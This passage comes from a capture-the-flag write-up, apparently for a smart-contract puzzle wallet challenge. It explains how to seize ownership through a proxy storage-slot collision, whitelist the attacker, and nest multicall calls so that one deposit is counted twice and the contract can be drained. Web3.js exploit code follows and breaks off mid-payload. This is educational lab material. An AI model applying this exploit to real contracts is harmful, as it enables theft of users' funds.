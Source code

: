 In order to change admin, we need to modify `maxBalance` (set it to the uint value of our address) but to modify `maxBalance`, we need to reduce the balance of the contract to 0. The `execute` function allows us to withdraw funds from the contract. What we need to figure out is how to call `deposit` and how can we get the contract to register more than what was deposited.

`deposit` can only be called by a whitelisted address and to be whitelisted, we need to be an owner. By setting ourself as `pendingAdmin`, we will become the owner, cause  the `pendingAdmin` and `owner` storage slot is shared. Once we become the owner, we can then whitelist ourselves and call the `deposit` function.

In order to get the smart contract to register two deposits when only 1 was made, we need to take advantage of calling `multicall` within `multicall`. The reason why this works is because the `multicall` function checks for `deposit`'s function signature so by calling `deposit` within `multicall`, we are able to bypass the `require(!depositCalled, "Deposit can only be called once");` check.

Not to worry if you don't fully understand, the code and comments below will explain everything

```
// Set pending admin / owner
pnaData = web3.eth.abi.encodeFunctionCall({
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_newAdmin'
    }]
}, [player]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: pnaData
})

// check to see if we are the owner or not
// await contract.owner()

// we whitelist our address
wlData = web3.eth.abi.encodeFunctionCall({
    name: 'addToWhitelist',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'addr'
    }]
}, [player]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: wlData
})

// setting up multicall within multicall
depositData = web3.eth.abi.encodeFunctionCall({
    name: 'deposit',
    type: 'function',
    inputs: []
}, []);

multicallData = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data'
```